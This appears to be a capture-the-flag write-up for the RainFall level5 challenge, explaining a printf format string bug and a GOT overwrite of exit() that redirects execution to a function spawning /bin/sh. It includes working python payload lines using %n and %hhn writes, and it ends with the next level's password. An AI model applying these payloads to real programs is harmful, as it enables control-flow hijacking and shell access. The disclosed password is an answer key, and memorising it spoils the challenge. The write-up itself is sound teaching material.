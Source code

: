 ## level5 TODO NOTES
Below is an objdump for the level5 program.
```
080484a4 <o>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       83 ec 18                sub    esp,0x18
 80484aa:       c7 04 24 f0 85 04 08    mov    DWORD PTR [esp],0x80485f0
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt>
 80484b6:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>

080484c2 <n>:
 80484c2:       55                      push   ebp
 80484c3:       89 e5                   mov    ebp,esp
 80484c5:       81 ec 18 02 00 00       sub    esp,0x218
 80484cb:       a1 48 98 04 08          mov    eax,ds:0x8049848
 80484d0:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484d4:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484db:       00
 80484dc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484e2:       89 04 24                mov    DWORD PTR [esp],eax
 80484e5:       e8 b6 fe ff ff          call   80483a0 <fgets@plt>
 80484ea:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484f0:       89 04 24                mov    DWORD PTR [esp],eax
 80484f3:       e8 88 fe ff ff          call   8048380 <printf@plt>
 80484f8:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484ff:       e8 cc fe ff ff          call   80483d0 <exit@plt>

08048504 <main>:
 8048504:       55                      push   ebp
 8048505:       89 e5                   mov    ebp,esp
 8048507:       83 e4 f0                and    esp,0xfffffff0
 804850a:       e8 b3 ff ff ff          call   80484c2 <n>
 804850f:       c9                      leave
 8048510:       c3                      ret
 8048511:       90                      nop
 8048512:       90                      nop
 8048513:       90                      nop
 8048514:       90                      nop
 8048515:       90                      nop
 8048516:       90                      nop
 8048517:       90                      nop
 8048518:       90                      nop
 8048519:       90                      nop
 804851a:       90                      nop
 804851b:       90                      nop
 804851c:       90                      nop
 804851d:       90                      nop
 804851e:       90                      nop
 804851f:       90                      nop
 ```

Based on the dump, the source code can de deduced like so 
```clike=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
    
void o()
{
    // 80484b1
    system("/bin/sh");
}

void n()
{
    char buf[512];
    
    // 80484e5
    fgets(buf, 512, stdin);
    
    // 80484f3
    printf(buf);
    
    exit(1);
}

int main()
{
    // 804850a
    n();
}
```

This is abit tricky, as after the format string vuln at printf follows an exit call, which ignores the saved EIP.

I tried to look for .dtor function as suggested by the book, but there is no avail, however, the **Overwriting the Global Offset Table** did mention something 

![image](https://hackmd.io/_uploads/H1s032trp.png)

This implies that we are able to **manipulate the jump instructions for the exit() function to jump somewhere else, potentially to shellcode.**.

This is a special section in compiled programs called the **PLT (procedure linkage table)** which consists of many jump instructions, each one corresponding to the address of a function. Each time a **shared function needs to be called**, control will pass through the PLT.

The PLT section of our binary looks like this
```
Disassembly of section .plt:

08048370 <printf@plt-0x10>:
 8048370:       ff 35 1c 98 04 08       push   DWORD PTR ds:0x804981c
 8048376:       ff 25 20 98 04 08       jmp    DWORD PTR ds:0x8049820
 804837c:       00 00                   add    BYTE PTR [eax],al
        ...

08048380 <printf@plt>:
 8048380:       ff 25 24 98 04 08       jmp    DWORD PTR ds:0x8049824
 8048386:       68 00 00 00 00          push   0x0
 804838b:       e9 e0 ff ff ff          jmp    8048370 <_init+0x3c>

08048390 <_exit@plt>:
 8048390:       ff 25 28 98 04 08       jmp    DWORD PTR ds:0x8049828
 8048396:       68 08 00 00 00          push   0x8
 804839b:       e9 d0 ff ff ff          jmp    8048370 <_init+0x3c>

080483a0 <fgets@plt>:
 80483a0:       ff 25 2c 98 04 08       jmp    DWORD PTR ds:0x804982c
 80483a6:       68 10 00 00 00          push   0x10
 80483ab:       e9 c0 ff ff ff          jmp    8048370 <_init+0x3c>

080483b0 <system@plt>:
 80483b0:       ff 25 30 98 04 08       jmp    DWORD PTR ds:0x8049830
 80483b6:       68 18 00 00 00          push   0x18
 80483bb:       e9 b0 ff ff ff          jmp    8048370 <_init+0x3c>

080483c0 <__gmon_start__@plt>:
 80483c0:       ff 25 34 98 04 08       jmp    DWORD PTR ds:0x8049834
 80483c6:       68 20 00 00 00          push   0x20
 80483cb:       e9 a0 ff ff ff          jmp    8048370 <_init+0x3c>

080483d0 <exit@plt>:
 80483d0:       ff 25 38 98 04 08       jmp    DWORD PTR ds:0x8049838
 80483d6:       68 28 00 00 00          push   0x28
 80483db:       e9 90 ff ff ff          jmp    8048370 <_init+0x3c>

080483e0 <__libc_start_main@plt>:
 80483e0:       ff 25 3c 98 04 08       jmp    DWORD PTR ds:0x804983c
 80483e6:       68 30 00 00 00          push   0x30
 80483eb:       e9 80 ff ff ff          jmp    8048370 <_init+0x3c>
```
as we can see, it contains all the jump instruction for our standard library calls. In most cases, the PLT of programs are **read only**, which can be checked like so 
```
level5@RainFall:~$ objdump -h ./level5 | grep -A1 "\ .plt\ "
 11 .plt          00000080  08048370  08048370  00000370  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
level5@RainFall:~$
```

However, upon closer inspection, the address that the PLT entries jump to isnt to the function instruction themselves, but **rather pointers to the function instructions** (notice how they derefrences the addresses when jumping). These addresses exist in another section, called the **global offset table (GOT)**, which is writable. These addresses can be directly obtained by displaying the **dynamic relocation entries** for the binary by using objdump. `objdump -R ./level5`

```
./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

This shows that the address `0x08049838` will be onw one getting called. We can overwrite the value of this address using printf to the instruction for the `o()` function, which is `0x080484a4` based on the disassembly objdump.

Now we know where to write to and what to write, its time to go over the procesures of
1. Generate mapping of address to determine how many times we want to write
2. Finding the format string (first arg) value location
3. Calculate number of bytes written and generate payload

The mapping/segmentation `080484a4` should look like this
```
0x08049838 - 0x4a4
0x08049839 - 0x8048
```

with the input `BBBB%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x`, I got this output `BBBB200 b7fd1ac0 b7ff37d0 42424242 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 a`, which indicates that the first args value is at the foruth call of %x.

Using the following input
`python -c "print '\x08\x04\x98\x38'[::-1] + '\x08\x04\x98\x3a'[::-1] + '%1180x' + '%4\$n' + '%31652x' + '%5\$n'" > /tmp/level5`, I did not get the results I want. Because **by default, %n writes 4 bytes, which causes overlaps on smaller values**
![image](https://hackmd.io/_uploads/S1aqYpYSa.png)

So, we need to find a way to make it so that the values dont overlap each other. There is a way to make **%n write as short, using %hhn for 1 byte, and %hn for 2 bytes**.
The new mapping/segmentation `080484a4` should look like this
```
0x08049839 - 0x84
0x08049838 - 0xa4
0x0804983a - 0x804
```
As well as the new input
`python -c "print '\x08\x04\x98\x39'[::-1] + '\x08\x04\x98\x38'[::-1] +  '\x08\x04\x98\x3a'[::-1] + '%120x' + '%4\$hhn' + '%32x' + '%5\$hhn' + '%1888x' + '%6\$n' " > /tmp/level5`

![image](https://hackmd.io/_uploads/SJWcjTtS6.png)

And viola, we got ourselves the overwrite we want. Now to open stdin to the program..

![image](https://hackmd.io/_uploads/ryJasaKBT.png)

The password is 
`d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`
